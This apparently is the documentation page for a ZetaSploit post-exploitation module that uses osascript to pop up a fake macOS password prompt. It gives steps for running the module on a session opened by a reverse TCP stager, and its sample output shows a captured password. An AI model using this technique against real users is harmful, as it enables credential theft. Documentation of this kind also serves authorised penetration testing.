 # `post/macos/zetant/gather/prompt`

## Vulnerable Application

This module uses system `osascript` to prompt user to type password.

## Verification Steps

1. Start ZetaSploit
2. Run `exploit/macos/stager/zetant_reverse_tcp` on target
3. Do: `use post/macos/zetant/gather/prompt`
4. Do: `set SESSION` to your target session
5. Do: `run`

## Options

| Option    | Default Value | Required | Description        |
|-----------|---------------|----------|--------------------|
| `SESSION` | 0             | True     | Session to run on. |

**SESSION**

Variable that contains session id to run post module on it.

## Scenarios

```
(zsf: post: macos/zetant/gather/prompt)> run
[*] Waiting for prompt window to appear...
[*] Waiting for user to type password...
[i] User entered: mysuperstrongpassword1234
```
